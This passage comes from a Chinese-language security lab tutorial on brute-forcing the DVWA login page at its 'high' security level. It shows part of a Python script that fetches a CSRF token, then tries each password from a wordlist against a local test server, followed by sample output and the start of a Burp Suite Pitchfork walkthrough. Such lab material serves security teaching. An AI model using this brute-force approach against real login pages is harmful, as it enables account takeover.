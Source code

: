 ```python
    if 'hackable' in r.text:
        print('\nBingo 爆破成功')
        print(f'username:{uname} \npassword:{passwd}\n')
        os._exit(0)

if __name__ == '__main__':
    headers = {
        'Host': '127.0.0.1:8888',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:56.0) Gecko/20100101 Firefox/56.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Cookie': 'csrftoken=zeS7KCvlVoiNMuxtdrjF77dC88sqib2J2nYf4alfeDwKeaSaEMDA5wFIH9yf8kyz; PHPSESSID=bqfflff6be4tgg69lfnv4g4ik4; security=high'
    }

    username = sys.argv[1]
    password_path = sys.argv[2]

    try:
        with open(password_path, "r") as f:
            lines = ''.join(f.readlines()).split("\n")

        for password in lines:
            brute_with_token(username, password, headers)
    except Exception as e:
        print('文件读取异常')
```

Python 这里面因为涉及到先获取 token 然后再用 token 带入爆破的问题，国光我尝试了进程池异步发现执行顺序这一块不好处理，于是放弃了，还是老老实实使用单线程来爆破了。

脚本使用方法和效果：

```bash
$ python brute.py admin pass.txt

7e43d35b6c656afdf926a95a55d6252e:admin:Pass999
...
f6f9db1ba43dfd57288fb73159503652:admin:password

Bingo 爆破成功
username:admin 
password:password
```

### Burpsuite

首先截取到登录的数据包，然后发送到测试器中，然后攻击类型选择 「Pitchfork」，然后根据实际情况标记变量：

![img](https://image.3001.net/images/20200522/15901408054564.png)

